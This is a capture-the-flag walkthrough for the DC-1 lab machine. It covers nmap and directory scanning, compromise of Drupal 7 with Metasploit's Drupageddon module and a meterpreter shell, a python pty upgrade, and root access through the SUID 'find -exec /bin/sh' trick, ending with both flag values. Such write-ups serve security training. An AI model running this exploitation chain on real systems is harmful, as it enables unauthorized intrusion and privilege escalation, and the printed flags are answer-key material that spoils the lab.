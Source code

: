 ```yaml
---
description: >-
  This is a free linux, proving grounds machine, you can also download it from
  vulhub.
---
```


# DC-1

### NMAP

```shell
nmap -sV -sC -T4 -p- -oN dc1 192.168.242.193  192.168.240.193
```

```markdown
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 6.0p1 Debian 4+deb7u7 (protocol 2.0)
| ssh-hostkey: 
|   1024 c4:d6:59:e6:77:4c:22:7a:96:16:60:67:8b:42:48:8f (DSA)
|   2048 11:82:fe:53:4e:dc:5b:32:7f:44:64:82:75:7d:d0:a0 (RSA)
|_  256 3d:aa:98:5c:87:af:ea:84:b8:23:68:8d:b9:05:5f:d8 (ECDSA)
80/tcp    open  http    Apache httpd 2.2.22 ((Debian))
| http-robots.txt: 36 disallowed entries (15 shown)
| /includes/ /misc/ /modules/ /profiles/ /scripts/ 
| /themes/ /CHANGELOG.txt /cron.php /INSTALL.mysql.txt 
| /INSTALL.pgsql.txt /INSTALL.sqlite.txt /install.php /INSTALL.txt 
|_/LICENSE.txt /MAINTAINERS.txt
|_http-server-header: Apache/2.2.22 (Debian)
|_http-title: Welcome to Drupal Site | Drupal Site
|_http-generator: Drupal 7 (http://drupal.org)
111/tcp   open  rpcbind 2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100024  1          46232/tcp   status
|   100024  1          48086/tcp6  status
|   100024  1          53990/udp   status
|_  100024  1          57904/udp6  status
46232/tcp open  status  1 (RPC #100024)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

### ENUMERATION

#### rpc

```markdown
rpcinfo -p 192.168.242.193
   program vers proto   port  service
    100000    4   tcp    111  portmapper
    100000    3   tcp    111  portmapper
    100000    2   tcp    111  portmapper
    100000    4   udp    111  portmapper
    100000    3   udp    111  portmapper
    100000    2   udp    111  portmapper
    100024    1   udp  53990  status
    100024    1   tcp  46232  status
                                       
```

#### http (port 80)

<figure><img src="../../.gitbook/assets/rt (1).png" alt=""><figcaption></figcaption></figure>

checking the robots.txt file

<figure><img src="../../.gitbook/assets/cd.png" alt=""><figcaption></figcaption></figure>

a full list of files is below

```
#
# robots.txt
#
# This file is to prevent the crawling and indexing of certain parts
# of your site by web crawlers and spiders run by sites like Yahoo!
# and Google. By telling these "robots" where not to go on your site,
# you save bandwidth and server resources.
#
# This file will be ignored unless it is at the root of your host:
# Used:    http://example.com/robots.txt
# Ignored: http://example.com/site/robots.txt
#
# For more information about the robots.txt standard, see:
# http://www.robotstxt.org/wc/robots.html
#
# For syntax checking, see:
# http://www.sxw.org.uk/computing/robots/check.html

User-agent: *
Crawl-delay: 10
# Directories
Disallow: /includes/
Disallow: /misc/
Disallow: /modules/
Disallow: /profiles/
Disallow: /scripts/
Disallow: /themes/
# Files
Disallow: /CHANGELOG.txt
Disallow: /cron.php
Disallow: /INSTALL.mysql.txt
Disallow: /INSTALL.pgsql.txt
Disallow: /INSTALL.sqlite.txt
Disallow: /install.php
Disallow: /INSTALL.txt
Disallow: /LICENSE.txt
Disallow: /MAINTAINERS.txt
Disallow: /update.php
Disallow: /UPGRADE.txt
Disallow: /xmlrpc.php
# Paths (clean URLs)
Disallow: /admin/
Disallow: /comment/reply/
Disallow: /filter/tips/
Disallow: /node/add/
Disallow: /search/
Disallow: /user/register/
Disallow: /user/password/
Disallow: /user/login/
Disallow: /user/logout/
# Paths (no clean URLs)
Disallow: /?q=admin/
Disallow: /?q=comment/reply/
Disallow: /?q=filter/tips/
Disallow: /?q=node/add/
Disallow: /?q=search/
Disallow: /?q=user/password/
Disallow: /?q=user/register/
Disallow: /?q=user/login/
Disallow: /?q=user/logout/
```

**DIRECTORY TRANSVERSAL**

feroxbuster

```shell
feroxbuster -u http://192.168.240.193 -x html,php,txt
```

since we know that site its using **Drupal 7** from our nmap or when you check the source code, lets search for its exploits

<figure><img src="../../.gitbook/assets/dp.png" alt=""><figcaption></figcaption></figure>

#### checking for exploits with msfconsole

```shell
search Drupal 7
```

<figure><img src="../../.gitbook/assets/dc12.png" alt=""><figcaption></figcaption></figure>

Now i tried on the first exploits, they didn't work then i tried the second exploit and it worked for me well

```shell
1. use exploit/multi/http/drupal_drupageddon
2. show options
```

<figure><img src="../../.gitbook/assets/dc13.png" alt=""><figcaption></figcaption></figure>

Now you have to set the **RHOSTS** to our target machine , we set the **LHOST** which our attack machine and the **LPORT** which is our listening port, since our website is running direct on port 80 which is our root, we don't need to change the **TARGETURI**

<figure><img src="../../.gitbook/assets/DC14.png" alt=""><figcaption></figcaption></figure>

Now our payload is delivered successfully and the meterpreter is started, with just a **shell** command we get access to our machine terminal. After getting access to our machine i had to check if it has python installed so that is elevate to a unrestricted shell.

```shell
1. which python
2. python 'import pty;pty.spwan("/bin/bash")'
```

<figure><img src="../../.gitbook/assets/dc15.png" alt=""><figcaption></figcaption></figure>

we find our first flag when we enter in out **/home** directory

```shell
cat flag.txt
```

flag

```markdown
a0db6e93743d9477744b9c4084c6aa14
```

### privilege escalation

After finding our first flag we have have to see how we can elevate our privileges I tried to download **linpeas** to a victim machine but i never had permission so i tried another way which is finding the **SUID**

```shell
find / -user root -perm /4000 2>/dev/null
```

<figure><img src="../../.gitbook/assets/dc16.png" alt=""><figcaption></figcaption></figure>

in the list give i happen to see find and to check it on **GTFOBins** i found a shell command that can give me the root shell [find-GTFOBin](https://gtfobins.github.io/gtfobins/find/#shell)

```shell
find . -exec /bin/sh \; -quit
```

After getting acces to a root machine we find the final flag in the **/root** path

<figure><img src="../../.gitbook/assets/dc17.png" alt=""><figcaption></figcaption></figure>

```markdown
1. cat proof.txt
	dd4bb4fc19607a2d17da212ef2646b07
```

machine successfully hacked.
